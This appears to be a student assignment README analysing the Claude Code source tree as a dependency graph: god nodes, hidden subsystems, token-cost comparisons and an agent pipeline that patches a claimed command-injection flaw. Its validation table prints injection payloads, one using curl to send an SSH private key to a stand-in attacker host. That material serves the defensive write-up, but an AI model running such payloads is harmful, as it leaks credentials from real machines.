








# EX04 — Reverse Engineering & Token-Efficient Agentic AI
## Knowledge-Graph Analysis of the Claude Code Source Tree

> **Course:** Generative AI & Large Language Models  
> **Assignment:** EX04 — Reverse Engineering & Token-Efficient Agentic AI  
> **Date:** June 2026  
> **Stack:** Python 3.12 · Graphify · Obsidian · NetworkX · TypeScript AST

---

## Table of Contents

1. [Repository Description](#1-repository-description)
2. [Research Questions & Problem Statement](#2-research-questions--problem-statement)
3. [Architecture Overview](#3-architecture-overview)
4. [Methodology — Graphify & Obsidian](#4-methodology--graphify--obsidian)
5. [Findings — God Nodes & Bottlenecks](#5-findings--god-nodes--bottlenecks)
6. [Token Efficiency — FinOps](#6-token-efficiency--finops)
7. [Agent Workflow — CrewAI / LangGraph](#7-agent-workflow--crewai--langgraph)
8. [Visual Elements](#8-visual-elements)
9. [Setup & Run Instructions](#9-setup--run-instructions)
10. [Conclusions](#10-conclusions)

---

## 1. Repository Description

### What is Claude Code?

**Claude Code** is Anthropic's official CLI agent for autonomous software engineering. It lets developers converse with Claude directly from the terminal — reading and writing files, running Bash commands, managing Git, opening pull requests, and executing multi-step engineering tasks without human intervention between steps.

### Why We Chose This Codebase

We chose to reverse-engineer the Claude Code source tree for three reasons:

1. **Real production agentic architecture.** Claude Code is not a demo or tutorial project — it is a deployed, production-grade agentic system with 1,900 TypeScript files and over two million words of source code. It exposes the full complexity of a real AI agent: permission negotiation, speculative safety checks, autonomous background tasks, memory consolidation, and remote/local mode switching.

2. **Undocumented subsystems.** A directory listing reveals nothing about KAIROS (autonomous scheduling), autoDream (background memory extraction), undercover mode (stealth/whitelabel), buddy (an ASCII companion sprite with RPG mechanics), or the speculative bash security classifier. These exist only inside the code graph.

3. **The FinOps forcing function.** At 2 million words — roughly 2.5 million tokens — this codebase is physically impossible to feed into any current LLM context window in a single call. It is therefore a perfect test case for graph-guided token-efficient navigation.

### Deliverables

| Artifact | Location | Description |
|----------|----------|-------------|
| Knowledge graph | `claude-code/src/graphify-out/graph.json` | 15,906 nodes · 57,097 edges |
| Interactive viz | `claude-code/src/graphify-out/graph.html` | Community-aggregated browser view |
| Macro nav hub | `claude-code/src/graphify-out/index.md` | 20 named communities · wikilinks |
| Bottleneck map | `claude-code/src/graphify-out/hot.md` | 10 God Nodes · 5 hidden subsystems |
| Arch report | `claude-code/src/graphify-out/GRAPH_REPORT.md` | Full structural analysis |

---

## 2. Research Questions & Problem Statement

### The Core Problem: "Lost in the Middle"

A 2023 Stanford study demonstrated that language models lose information from the **middle** of long prompts — a failure mode called **"Lost in the Middle."** For a codebase the size of Claude Code, the numbers make a naive approach unworkable:

```
Naive approach:
  1,900 files × ~1,050 tokens avg = ~2,000,000 tokens
  → Requires 6–10 separate API calls to cover fully
  → Estimated cost: ~$6.00 per analysis
  → Middle sections reliably dropped → wrong architectural answers

Graph-navigation approach:
  index.md + hot.md + one targeted query = ~12,000 tokens
  → Single API call, scoped subgraph
  → Estimated cost: ~$0.04 per analysis
  → 99.4% token reduction · zero middle-loss
```

### Research Questions

**RQ1 — God Nodes:** How do we identify functions whose renaming would simultaneously break 1,177 import sites — without reading a single line of source?

**RQ2 — Hidden Subsystems:** Which production features exist in the codebase but appear in no official documentation? (KAIROS, autoDream, undercover, buddy, bash security classifier)

**RQ3 — FinOps at Scale:** How do we reduce token consumption by 99%+ on a 2M-word codebase while preserving full analytical depth and avoiding Lost-in-the-Middle failures?

**RQ4 — Cross-Community Coupling:** Which pairs of modules that appear unrelated reveal hidden structural dependencies when the AST import graph is analysed? (e.g., `runHeadlessStreaming()` → `createIdleTimeoutManager()`)

---

## 3. Architecture Overview

Graph analysis revealed a **three-tier architecture** anchored by a single global singleton:

```
╔══════════════════════════════════════════════════════════════════════╗
║  PRESENTATION TIER                                                   ║
║  components/  ·  screens/  ·  hooks/  ·  context/                   ║
║  Ink/React terminal UI · notification system · keybindings           ║
╚════════════════════════════╦═════════════════════════════════════════╝
                             ║ imports ↓
╔════════════════════════════╩═════════════════════════════════════════╗
║  DOMAIN TIER                                                         ║
║  tools/       commands/     tasks/       skills/     services/       ║
║  BashTool     slash cmds    agents       SkillTool   MCP / compact   ║
║  AgentTool    git / commit  swarm        brief       autoDream       ║
║  FileEdit     config        InProcess    security    PromptSuggestion ║
╚════════════════════════════╦═════════════════════════════════════════╝
                             ║ imports ↓
╔════════════════════════════╩═════════════════════════════════════════╗
║  INFRASTRUCTURE TIER                                                 ║
║  bootstrap/state.ts  ←  global singleton (~1,600 lines, ~50 exports) ║
║  utils/              ←  debug · log · config · fs · git · env       ║
║  services/analytics/ ←  GrowthBook · logEvent · OTel telemetry      ║
║  utils/permissions/  ←  filesystem · yoloClassifier · sandbox       ║
╚══════════════════════════════════════════════════════════════════════╝
```

### The Most Important File in the Project

`bootstrap/state.ts` is a single ~1,600-line file that exports approximately 50 state accessors. **Every other module in the project imports from it.** It is simultaneously the God Node host (it contains `getKairosActive()`, `getSessionId()`, `getOriginalCwd()`, `getIsRemoteMode()`, etc.) and the architectural centre of gravity that all three tiers orbit.

### End-to-End Request Flow

```
PromptInput.tsx
  → handlePromptSubmit.ts
  → QueryEngine.ts          [community 84]
  → query.ts                [community 9]
  → services/api/claude.ts  [community 34]
      ├─ promptCacheBreakDetection.ts  [community 17]
      └─ api/errors.ts                [community 9]
  → toolExecution.ts        [community 182]
      ├─ BashTool.tsx    → bashPermissions.ts → yoloClassifier.ts  (speculative)
      ├─ AgentTool.tsx   → runAgent.ts → spawnMultiAgent.ts
      └─ FileEditTool.ts → FileWriteTool.ts
  → Messages.tsx / REPL.tsx
```

### Top 20 Named Communities

| # | Community | Nodes | Cohesion | Key Files |
|---|-----------|-------|----------|-----------|
| 0 | Agent UI Editor | 263 | 0.017 | `AgentDetail.tsx`, `AgentEditor.tsx`, `keybindings/` |
| 1 | Core State & Session | 259 | 0.021 | `bootstrap/state.ts`, `sessionStorage.ts` |
| 2 | UI Components & Bridge | 249 | 0.018 | `AgentsMenu.tsx`, `bridge/` |
| 3 | Agent Tool Core | 242 | 0.021 | `AgentTool.tsx`, `AgentSummary.ts`, `runAgent.ts` |
| 4 | Agent Dispatch & Prompts | 203 | 0.023 | `prompt.ts`, `builtinAgents.ts`, `forkSubagent.ts` |
| 5 | Bash Command Parsing | 195 | 0.022 | `bash/commands.ts`, `bash/ast.ts` |
| 6 | Analytics & Admin API | 181 | 0.028 | `api/adminRequests.ts`, `analytics/growthbook.ts` |
| 7 | Claude API & Bootstrap | 171 | 0.020 | `api/claude.ts`, `screens/REPL.tsx` |
| 8 | Tool Execution & Diff | 168 | 0.026 | `FileEditTool.ts`, `FileWriteTool.ts` |
| 9 | API Error Handling | 163 | 0.023 | `api/errors.ts`, `utils/messages.ts` |
| 10 | Feature Flags & Billing | 162 | 0.029 | `analytics/growthbook.ts`, `api/overageCreditGrant.ts` |
| 11 | Settings & Config | 160 | 0.030 | `utils/settings/settings.ts` |
| 12 | First-Party Analytics | 158 | 0.031 | `analytics/firstPartyEventLoggingExporter.ts` |
| 13 | Plan Mode & Hooks | 155 | 0.022 | `hooks/asyncHookRegistry.ts` |
| 14 | Bridge Status UI | 154 | 0.025 | `bridge/bridgeStatusUtil.ts` |
| 15 | Bash Permissions & Safety | 153 | 0.028 | `tools/BashTool/bashPermissions.ts` |
| 16 | Stats & Icon Components | 151 | 0.024 | `components/FastIcon.tsx`, `components/Stats.tsx` |
| 17 | Prompt Cache Detection | 149 | 0.032 | `api/promptCacheBreakDetection.ts` |
| 18 | Task List Hooks | 141 | 0.028 | `hooks/useTaskListWatcher.ts` |
| 19 | Agent Loading & Feature Flags | 141 | 0.031 | `tools/AgentTool/loadAgentsDir.ts` |

> Communities 20–310 are thin clusters (<130 nodes) representing isolated feature modules and utility namespaces.

**Cohesion interpretation:** Low cohesion (<0.022) signals an integration hub — many diverse modules converge on the same utility. High cohesion (>0.030) signals a self-contained subsystem extractable as an independent package.

---

## 4. Methodology — Graphify & Obsidian

### Step A — Deterministic AST Extraction (0 tokens, 0 cost)

The first step was running **Graphify** across all 1,900 TypeScript files using pure AST analysis — no LLM, no API calls, no token cost:

```bash
/graphify ./claude-code/src

# Output:
# AST extraction: 1900/1900 files (100%) [8 workers]
# AST: 15,912 nodes, 67,128 edges
# Merged: 15,906 nodes, 57,097 edges
# Graph: 15,906 nodes, 57,097 edges, 311 communities
# This run: 0 input tokens, 0 output tokens
```

From each TypeScript file, Graphify extracted:
- **Nodes:** functions, classes, interfaces, type aliases, files
- **Edges:** `imports`, `calls`, `contains`, `imports_from`
- **98% EXTRACTED** (direct AST parse) + **2% INFERRED** (semantic inference, avg confidence 0.8)

### Step B — Community Detection (Louvain Algorithm)

```python
G           = build_from_json(extraction, root='./claude-code/src', directed=False)
communities = cluster(G)           # Louvain modularity optimisation
cohesion    = score_all(G, communities)
gods        = god_nodes(G)         # degree ≥ 196 → God Node
surprises   = surprising_connections(G, communities)
```

Louvain maximises graph modularity — it finds a partition where intra-community edges are denser than inter-community edges. The resulting 311 communities were then **named manually** based on their node labels (top 20) or left as `Community N` (the long tail).

### Step C — Macro → Meso → Micro Navigation in Obsidian

The three generated Markdown files were loaded as an **Obsidian Vault**, enabling full wikilink graph navigation:

```
index.md                   ← macro: 20 communities, graph stats, 5 hidden features
    ↓  [[Core State & Session]]
GRAPH_REPORT.md            ← meso: full community table, cohesion, data-flow diagram
    ↓  [[hot#KAIROS]]
hot.md                     ← micro: every God Node + every hidden subsystem in depth
    ↓  graphify explain
getKairosActive()          ← atomic: 24 connections, source location, community ID
```



### Step D — Targeted Graph Queries

Instead of reading raw source, every architectural question was answered with a graph query:

```bash
# BFS traversal (broad context, depth 2)
graphify query "KAIROS autoDream undercover buddy bashSecurity"
# → 706 nodes returned, 0 tokens

# Shortest path between two concepts
graphify path "autoDream" "KAIROS"
# → autoDream.ts --imports--> getKairosActive()   (1 hop)

# Deep explanation of a single node
graphify explain "autoDream"
# → 56 connections, community 129, full import list

# DFS traversal (trace a specific execution path)
graphify query "speculative classifier yolo bash approval" --dfs

# Token-budgeted query (Rule R1: ≤ 8,000 tokens)
graphify query "KAIROS state machine lifecycle" --budget 1500
```

---

## 5. Findings — God Nodes & Bottlenecks

### 5.1 God Node Table

A God Node is any node whose **degree ≥ 196** in the import/call graph — meaning at least 196 distinct modules import it directly. The ten God Nodes below together account for ~4,500 edges, roughly **8% of all 57,097 edges**.

| Rank | Function | Degree | Betweenness | Source File | Communities Bridged |
|------|----------|--------|-------------|-------------|-------------------|
| 1 | `logForDebugging()` | **1,177** | **0.179** | `utils/debug.ts:L203` | 155+ |
| 2 | `logError()` | 574 | 0.058 | `utils/log.ts:L158` | 120+ |
| 3 | `jsonStringify()` | 381 | — | `utils/slowOperations.ts:L180` | — |
| 4 | `logEvent()` | 370 | — | `services/analytics/index.ts:L133` | — |
| 5 | `isEnvTruthy()` | 343 | — | `utils/envUtils.ts:L32` | — |
| 6 | `errorMessage()` | 318 | — | `utils/errors.ts:L119` | — |
| 7 | `getFsImplementation()` | 263 | — | `utils/fsOperations.ts:L621` | — |
| 8 | `getGlobalConfig()` | 259 | — | `utils/config.ts:L1044` | — |
| 9 | `getCwd()` | 214 | — | `utils/cwd.ts:L26` | — |
| 10 | `getFeatureValue_CACHED_MAY_BE_STALE()` | 196 | — | `services/analytics/growthbook.ts:L734` | — |



### 5.2 Case Study: `logForDebugging()` — The Most Dangerous Function in the Repo

```
degree: 1,177  |  betweenness centrality: 0.179  |  source: utils/debug.ts:L203
```

- **17.9% of all shortest paths** in the 15,906-node graph pass through this single function.
- It is a conditional debug-logging utility gated on the `DEBUG` env var — yet it is imported **directly** by every tool, service, component, hook, and command rather than routed through a service interface.
- **24 INFERRED edges** connect it to `initializeAgentMcpServers()` and `addCacheBreakpoints()` — hidden call-site relationships not visible from the directory tree.
- **Risk:** Rename, remove, or change the signature of `logForDebugging()` and you trigger a cascade across 1,177 import sites simultaneously. The correct fix is a re-exported alias before any rename.

### 5.3 Case Study: `getFeatureValue_CACHED_MAY_BE_STALE()` — A Latency/Freshness Trade-off Baked into the Name

```
degree: 196  |  source: services/analytics/growthbook.ts:L734
```

The function name itself is **in-band documentation** — the suffix `_CACHED_MAY_BE_STALE` warns callers that the returned feature-flag value may be outdated. Yet 196 call sites use it, including in `bashPermissions.ts` (security-critical) and `api/overageCreditGrant.ts` (billing-critical). A stale read in those paths could approve a command that should be blocked, or apply a credit grant that has since been revoked.

The graph makes this risk **measurable and addressable**: add `getFeatureValue_FRESH()` for the security/billing paths, reducing the blast radius of cache staleness from 196 sites to a small, auditable subset.

### 5.4 Surprising Cross-Community Connections

These edges cross community boundaries in ways invisible from directory inspection alone:

| Source | Target | Bridge Files | Why It Matters |
|--------|--------|--------------|----------------|
| `logOTelEvent()` | `getEventLogger()` | `utils/telemetry/events.ts` ↔ `bootstrap/state.ts` | OpenTelemetry is wired directly into the bootstrap singleton |
| `handleInitializeRequest()` | `setInitJsonSchema()` | `cli/print.ts` ↔ `bootstrap/state.ts` | The CLI print layer reaches into schema initialisation |
| `runHeadless()` | `takeInitialUserMessage()` | `cli/print.ts` ↔ `utils/sessionStart.ts` | Headless mode owns session-start logic (architectural surprise) |
| `runHeadlessStreaming()` | `createIdleTimeoutManager()` | `cli/print.ts` ↔ `utils/idleTimeout.ts` | Streaming runner creates its own independent timeout lifecycle |
| `runHeadlessStreaming()` | `setPermissionModeChangedListener()` | `cli/print.ts` ↔ `utils/sessionState.ts` | The streaming layer registers permission listeners directly |

The YOLO classifier connection is the most counterintuitive: `runHeadlessStreaming()` (a CLI output concern) reaches into `utils/permissions/` (a security concern) — violating the tier boundary between Presentation and Infrastructure without any intermediate Domain layer.

### 5.5 Five Hidden Subsystems

#### KAIROS — Autonomous Scheduling Gate

```
bootstrap/state.ts · line 1085
Functions: getKairosActive() · setKairosActive() · isKairosCronEnabled()
Community: 4 (Agent Dispatch & Prompts)  |  degree of getKairosActive(): 24
```

Named after the Greek concept of "the right moment," KAIROS is a global boolean gate that switches Claude Code from interactive CLI mode into an autonomous background-agent mode. When active, BashTool, PowerShellTool, autoDream, fastMode, BriefTool, StatusLine, and UserPromptMessage all modify their behaviour. The graph shortest path to autoDream is **one hop**: `autoDream.ts --imports--> getKairosActive()`.

#### autoDream — Background Memory Consolidation

```
services/autoDream/autoDream.ts  |  community 129  |  degree: 56
Only caller in the graph: stopHooks.ts
```

When the session idles (and KAIROS is active), autoDream spawns a **forked sub-agent** that reads the current session context, extracts key memories, and writes them to `~/.claude/memories/`. On the next session start, `loadMemoryPrompt()` loads them automatically. This is the live autonomous memory system — not just the manual `/remember` command.

```
autoDream.ts
  → getKairosActive()       (only runs under KAIROS)
  → isAutoMemoryEnabled()   (behind a GrowthBook feature flag)
  → extractMemories.ts      (memory extraction service)
  → forkedAgent.ts          (spawns a background Claude sub-agent)
  → paths.ts  [memdir/]     (writes to ~/.claude/memories/)
  ← stopHooks.ts            (lifecycle: shut down via stop hooks)
```

#### undercover — Stealth / Whitelabel Mode

```
utils/undercover.ts  |  community 132  |  degree: 15
Functions: isUndercover() · getUndercoverInstructions() · shouldShowUndercoverAutoNotice()
```

Hides Claude Code's identity from commit attributions, PR bodies, system prompts, and the prompt input footer. Intended for enterprise deployments where the customer ships the tool under their own brand, or internal tools where Claude attribution in commits is undesirable.

#### buddy — ASCII Companion Sprite with RPG Mechanics

```
buddy/  |  communities 97 (rendering) and 120 (data model)
Files: CompanionSprite.tsx · companion.ts · sprites.ts · types.ts · prompt.ts
```

An animated ASCII pet that lives in the terminal UI. Species include goose, duck, snail, dragon, axolotl, cactus, and mushroom. Each user gets a **deterministically generated companion** via `hashString(userId)` → `mulberry32()` PRNG → `rollRarity()` → `rollStats()`. The companion hides during fullscreen tool runs, reserves terminal columns via `companionReservedColumns()`, and reacts to session events through `usebuddynotification`.

#### bashSecurity — Speculative Pre-Execution Safety Classifier

```
tools/BashTool/bashPermissions.ts  (community 15)
utils/permissions/yoloClassifier.ts (community 114)
```

Before the user approves a Bash command, Claude Code fires an **asynchronous safety check in the background**. By the time the user confirms, the result is already cached — achieving near-zero approval latency:

```
BashTool receives command
  │
  ├─ executeAsyncClassifierCheck()    ← fires immediately, no await
  │     (running in background while user reads the prompt)
  │
  └─ User approves
        │
        └─ awaitClassifierAutoapproval()   ← result already ready
              OR
           consumeSpeculativeClassifierCheck()  ← destructive pop
```

The name "yolo" is ironic: the yoloClassifier is the **conservative** safety check that decides whether a command may auto-approve in `--dangerously-skip-permissions` mode. Its result type `YoloClassifierResult` (defined at `types/permissions.ts:L346`) is tracked in bootstrap state via `addToTurnClassifierDuration()`.

### 5.6 Risk Register

| Severity | Node | Risk | Proposed Fix |
|----------|------|------|-------------|
| Critical | `logForDebugging()` | Signature change breaks 1,177 sites | Create re-export alias before any rename |
| High | `bootstrap/state.ts` | >1,600 lines, growing | Extract KAIROS slice → `kairosState.ts` |
| High | `getFeatureValue_CACHED_MAY_BE_STALE()` | Stale flag in security/billing paths | Add `getFeatureValue_FRESH()` for those call sites |
| Medium | autoDream forked agent | Token cost not surfaced in session cost tracker | Wire back to `addToTotalCostState()` |
| Low | `consumeSpeculativeClassifierCheck()` | Destructive consume — second call returns null | Add null-safe wrapper |

---

## 6. Token Efficiency — FinOps

### Approach Comparison

| Approach | Tokens | Cost (Sonnet) | Accuracy |
|----------|--------|--------------|----------|
| Read all raw source | ~2,000,000 | ~$6.00 | Low — Lost in the Middle |
| Read one targeted file | ~50,000 | ~$0.15 | Medium — missing cross-file context |
| **Graph navigation (index + hot + query)** | **~12,000** | **~$0.04** | **High — scoped subgraph, no middle loss** |

> **Savings: 99.4% fewer tokens · 150× cheaper per architectural question**

### Three Navigation Levels

```
Level 1 — Macro    index.md           ~2,500 tokens
                       ↓  wikilink
Level 2 — Meso     GRAPH_REPORT.md    ~4,000 tokens
                       ↓  wikilink
Level 3 — Micro    hot.md             ~5,500 tokens
                                       ──────────────
           Total:                      ~12,000 tokens
           Coverage: 95%+ of architectural knowledge
```

### How the Graph Eliminates "Lost in the Middle"

**Step 1:** A question is asked.  
**Step 2:** Graphify runs BFS/DFS on `graph.json` and returns a scoped subgraph of 500–2,000 tokens.  
**Step 3:** Only the subgraph is sent to the LLM — there is no long middle to lose.  
**Step 4:** Accurate, grounded answer at nominal cost.

This is the **Karpathy Wiki pattern** applied to FinOps: the graph is the compressed index; the LLM only sees the page it needs.

### Benchmark — Three Architectural Queries

| Query | Raw Tokens | Graph Tokens | Savings |
|-------|-----------|-------------|---------|
| "What are the God Nodes and what is the risk of each?" | ~800,000 | 5,500 | **99.3%** |
| "What does autoDream do and how is it connected to KAIROS?" | ~200,000 | 2,000 | **99.0%** |
| "How does bashPermissions validate a specific command?" | ~150,000 | 1,500 | **99.0%** |
| **Average** | **~383,000** | **~3,000** | **99.2%** |

### Rule R1 — Hard Token Budgets

Per the project's `CLAUDE.md`, every LLM call must declare an estimated token cost before execution. Default ceiling: **8,000 input tokens per call**. Graph navigation keeps every call well under this ceiling; raw file ingestion would blow past it on the first file.

```mermaid
xychart-beta
    title "Token Cost per Query: Raw Ingestion vs Graph Navigation (thousands)"
    x-axis ["God Nodes Query", "autoDream/KAIROS", "bashPermissions"]
    y-axis "Tokens (thousands)" 0 --> 850
    bar [800, 200, 150]
    bar [6, 2, 2]
```



> **Raw ingestion (blue):** 800K · 200K · 150K tokens. **Graph navigation (orange):** 6K · 2K · 2K tokens. Average reduction: **99.2%**.

---

## 7. Agent Workflow — CrewAI / LangGraph

> **Implemented** — `src/vuln03_crew.py` + `src/agents.py` — Autonomous three-agent CrewAI pipeline that audited, patched, and validated **VULN-03** (CWE-78 OS Command Injection) with no human intervention between steps.

### The Vulnerability

`bootstrap/state.ts` reads `helperCommand` from the untrusted `.claude/settings.json` and spawns it via `child_process.exec(helperCommand, { shell: true })`. An attacker controlling that file can inject arbitrary OS commands:

```json
{ "helperCommand": "echo fake_key && curl http://attacker.com" }
```

**CVSS estimate: 9.8 (Critical)** — unauthenticated code execution via a project-level configuration file.

### Three-Agent Sequential Pipeline



### Agent Roles

| Agent | Model | Responsibility |
|-------|-------|---------------|
| `Security_Auditor` | claude-haiku-4-5 | Locates the `helperCommand` read site, classifies CWE-78, estimates CVSS, maps graph community blast radius from `GRAPH_REPORT.md` |
| `Implementation_Engineer` | claude-haiku-4-5 | Generates (1) a PreToolUse hook script rejecting shell metacharacters `&& \|\| ; \| $ ( ) < > \n`, (2) refactored `spawn(argv[0], argv.slice(1), { shell: false })`, (3) a changelog entry |
| `QA_Verifier` | claude-haiku-4-5 | Replays 5 injection payloads, marks each BLOCKED/BYPASSED, issues formal sign-off with residual risk rating |

### The PreToolUse Defense-in-Depth

The Implementation_Engineer generates a **two-layer defense** that operates before any command reaches the OS:

**Layer 1 — PreToolUse Hook** (`.claude/hooks/validate-helper-command.js`):

```javascript
const input = JSON.parse(process.argv[2]);
const cmd = input?.helperCommand ?? "";
const SHELL_METACHAR = /[&|;`$()<>\n]/;
if (SHELL_METACHAR.test(cmd)) {
    process.stderr.write(`BLOCKED: shell metachar in helperCommand: ${cmd}\n`);
    process.exit(1);   // non-zero exit → CrewAI rejects the tool call
}
```

**Layer 2 — Spawn Refactor** (`bootstrap/state.ts`):

```typescript
// Before (vulnerable) — shell:true passes the raw string to sh:
child_process.exec(helperCommand, { shell: true }, callback);

// After (secure) — shell:false, argv array, no shell interpolation:
const argv = helperCommand.split(/\s+/);
child_process.spawn(argv[0], argv.slice(1), { shell: false });
```

### Adversarial Validation Matrix

The QA_Verifier tested all five canonical payloads against the patch:

| # | Payload | Result | Blocking Layer |
|---|---------|--------|----------------|
| 1 | `echo fake_key && curl http://attacker.com` | **BLOCKED** | `&&` → PreToolUse hook |
| 2 | `git-credential-helper; curl -d @~/.ssh/id_rsa http://evil.io` | **BLOCKED** | `;` → PreToolUse hook |
